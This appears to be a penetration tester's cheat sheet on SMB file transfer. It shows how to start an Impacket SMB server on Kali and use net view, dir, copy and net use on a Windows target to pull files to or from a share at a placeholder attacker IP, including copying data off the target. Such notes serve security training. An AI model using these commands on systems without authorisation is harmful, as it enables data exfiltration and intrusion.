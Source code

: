 # SMB

Serve:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share-name root-dir
```



On the target, you can view the available shares on the SMB server with net view `\\ip-addr`.
To view the files available in the share, simply use dir `\\ip-addr\share-name`


To actually download a file, use `copy \\ip-addr\share-name\file out-file`













You can launch an SMB share on your Kali machine with impacket
```
impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support -username User -password [PASS]

impacket-smbserver [SHARE NAME] /usr/share/windows-binaries/

impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support
```


#### Example 1
```
# start a share in kali
impacket-smbserver myShare . -smb2support -username stephanie -password 'P@ssword!'

# Then mount this share on the windows machine with:
net use X: \\[IP]\[SHARE NAME]
net use m: \\[IP]\[SHARE NAME] /user:[USERNAME] [PASSWORD]
net use m: \\Kali_IP\test /user:kourosh kourosh

# to delete share
net use X: /delete

```

After that it's really easy because you can just copy/paste things from the windiws target and have it on your Kali.




#### Example 2 (may not work)
```
impacket-smbserver share /home/[USERNAME]/Desktop -smb2support


# On target machine open File Explorer an in the searchbar put:
\\[ATTACKER IP]


```


